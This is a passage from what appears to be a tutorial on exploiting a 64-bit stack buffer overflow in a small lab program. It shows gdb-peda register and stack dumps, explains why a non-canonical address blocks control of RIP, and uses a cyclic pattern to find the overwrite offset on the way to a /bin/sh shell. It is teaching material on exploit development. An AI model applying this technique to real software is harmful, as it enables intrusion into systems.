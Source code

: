 ```text
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400604 <vuln+62>:  call   0x400480 <puts@plt>
   0x400609 <vuln+67>:  mov    eax,0x0
   0x40060e <vuln+72>:  leave
=> 0x40060f <vuln+73>:  ret
   0x400610 <main>: push   rbp
   0x400611 <main+1>:   mov    rbp,rsp
   0x400614 <main+4>:   sub    rsp,0x10
   0x400618 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe508 ('A' <repeats 200 times>...)
0008| 0x7fffffffe510 ('A' <repeats 200 times>...)
0016| 0x7fffffffe518 ('A' <repeats 200 times>...)
0024| 0x7fffffffe520 ('A' <repeats 200 times>...)
0032| 0x7fffffffe528 ('A' <repeats 200 times>...)
0040| 0x7fffffffe530 ('A' <repeats 200 times>...)
0048| 0x7fffffffe538 ('A' <repeats 200 times>...)
0056| 0x7fffffffe540 ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040060f in vuln ()
```

So the program crashed as expected, but not because we overwrote RIP with an invalid address. In fact we don't control RIP at all. Recall as I mentioned earlier that the maximum address size is 0x00007FFFFFFFFFFF. We're overwriting RIP with a non-canonical address of 0x4141414141414141 which causes the processor to raise an exception. In order to control RIP, we need to overwrite it with 0x0000414141414141 instead. So really the goal is to find the offset with which to overwrite RIP with a canonical address. We can use a cyclic pattern to find this offset: 

```
gdb-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Let's run it again and examine the contents of RSP:

```
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b015a0 (<__write_nocancel+7>:  cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5a00 --> 0x0
RSI: 0x7ffff7ff5000 ("No shell for you :(\nis AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA\220\001\n")
RDI: 0x1
RBP: 0x416841414c414136 ('6AALAAhA')
RSP: 0x7fffffffe508 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6"...)
RIP: 0x40060f (<vuln+73>:   ret)
R8 : 0x283a20756f792072 ('r you :(')
R9 : 0x4147414131414162 ('bAA1AAGA')
R10: 0x7fffffffe260 --> 0x0
R11: 0x246
```